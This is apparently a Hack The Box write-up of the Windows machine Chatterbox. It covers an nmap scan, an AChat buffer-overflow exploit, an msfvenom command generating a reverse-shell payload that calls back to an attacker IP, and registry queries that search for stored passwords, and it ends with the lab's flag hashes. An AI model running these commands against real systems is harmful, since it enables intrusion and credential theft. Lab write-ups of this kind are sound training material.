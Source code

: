 ```yaml
---
layout: default
title: x001-Chatterbox
nav_order: 2
has_children: true
parent: htb
grand_parent: writeups
---
```

## x001-Chatterbox 

### Abstract

Windows Machine


### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.

Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.



| Server IP Adress | Ports Open |
|------------------|------------|
|     192.168.126.93      | TCP :  135,139,445,9255;9256,49152-57    |
|                  | UDP :      |



**Nmap Scan Results:**

Using  :
```sh
nmap -A -T4 -p- 10.10.10.74 -oN chatterbox.htb.nmap
```

Result :
```sh
# Nmap 7.93 scan initiated Thu Mar 16 19:32:28 2023 as: nmap -A -T4 -p- -oN chatterbox.htb.nmap 10.10.10.74
Nmap scan report for 10.10.10.74
Host is up (0.042s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  tcpwrapped
9256/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h20m00s, deviation: 2h18m35s, median: 4h59m59s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-03-16T23:34:01
|_  start_date: 2023-03-16T23:21:02
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-03-16T19:34:02-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 16 19:34:14 2023 -- 1 IP address (1 host up) scanned in 105.93 seconds  
```

**Vulnerability Exploited:** BufferOverflow in Achat

**Vulnerability Explanation:**

Using available exploit, we were able to gain initial access to the server.

**Vulnerability Fix:** Upgrade to the latest version.

**Severity:** CRITICAL

**Proof of Concept / Code Here:**

![](/writings/docs/assets/Pasted%20image%2020230319141321.png)

![](/docs/assets/Pasted%20image%2020230319141321.png)

[Exploit DB](https://www.exploit-db.com/exploits/36025)

We generate the bytecode with the following command: 

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.56 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

And inject the output inside the python script then run it with our tcp handler waiting for a connection. 

![](/writings/docs/assets/Pasted%20image%2020230319142012.png)

![](docs/assets/Pasted%20image%2020230319142012.png)

**Local.txt Proof Screenshot**

![](docs/assets/Pasted%20image%2020230319142322.png)

![](/writings/docs/assets/Pasted%20image%2020230319142322.png)

**Local.txt Contents**

`1e488e7ce084019eebcbcb7f84889719`

### Privilege Escalation

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Proof of Concept / Code Here:**

From our active session we could search for other passwords:

```powershell
reg query HKLM /f password /t REG_SZ /s
```

![](writeups/htb/attachments/Pasted%20image%2020230319143339.png)


```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

![](writeups/htb/attachments/Pasted%20image%2020230319143446.png)


Alfred is actually able to login as Administrator with his credential, we could update the permission in the Administrator folder to read the content of the file:

![](writeups/htb/attachments/Pasted%20image%2020230319152403.png)

**Proof Screenshot Here:**

![](writeups/htb/attachments/Pasted%20image%2020230319152419.png)

**Proof.txt Contents:**

`203088ee5f9011da8cddfd9f8672ae24`

--------

### NOTES : 

